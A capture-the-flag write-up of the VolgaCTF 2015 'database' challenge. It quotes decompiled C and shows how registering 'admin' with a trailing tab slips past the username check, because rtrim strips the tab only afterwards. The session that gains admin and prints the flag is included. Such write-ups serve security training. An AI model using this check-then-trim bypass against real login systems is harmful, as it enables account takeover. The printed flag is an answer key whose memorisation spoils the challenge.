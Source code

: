 # VolgaCTF 2015: database

**Category:** Pwn
**Points:** 75
**Description:** 

> *hack the [database](challenge/database)!*
>
> *nc database.2015.volgactf.ru 7777*


Its a telnet-service listening on port 7777

In the non-stripped binary we see a couple of functions, when looking at the functionprocess_connection we see a few possible commands (which can also be seen by running the binary through strings):

> get_flag
> 
> whoami
> 
> login
> 
> register
> 
> get_info
> 
> set_info
> 
> logout
> 
> exit

Lets first try get_flag

> This command is prohibited to non-admin users.

Okay, lets try to register admin:
> > register admin a
> > This user is already exists.

Hmm lets look at the register_user function in the binary

>```c
>    LODWORD(userExists) = g_hash_table_lookup(users, cmd_arg1);
>    if ( userExists )
>    {
>      user_exists_len = strlen(user_exists);
>      result = send(SocketFD, user_exists, user_exists_len, 0);
>    }
>    else
>    {
>      result = (ssize_t)insert_new_user(cmd_arg1_ref1, cmd_arg2_ref1, 0LL);
>      *(_QWORD *)ref_result = result;
>    }
>```

So it first checks if the input-string does not already exist as a username and then calls 'insert_new_user'

>```c
> username_buf = (char *)calloc(0x40uLL, 1uLL);
>  username_after_rtrim = rtrim((const char *)username);
>  strncpy(username_buf, username_after_rtrim, 0x40uLL);
>  username_buf[64] = 0;
>  password_buf = (char *)calloc(0x80uLL, 1uLL);
>  password_after_rtrim = rtrim((const char *)password);
>  strncpy(password_buf, password_after_rtrim, 0x40uLL);
>  password_buf[64] = 0;
>  if ( v7 )
>  {
>    v5 = rtrim((const char *)v7);
>    strncpy(password_buf + 64, v5, 0x40uLL);
>    password_buf[128] = 0;
>  }
>  g_hash_table_insert(users, username_buf, password_buf);
>```

So first, the input-string is checked if it does not exist as a username already, and if not, the username gets trimmed' with rtrim(); and inserted into the database.. seems like a vulnerability to me: we can insert something like admin\t, which when checked does not exist, but rtrim proceeds to remove the \t character so we end up inserting 'admin'. Let's try that: simply print a tab-character in your terminal and copy it: $perl -e 'print "\t"' then register admin\t and you're logged in as admin:

>```bash
> >register admin	 a
> >whoami
> You are admin.
> >get_flag
> flag: {does_it_look_like_column_tr@ncation}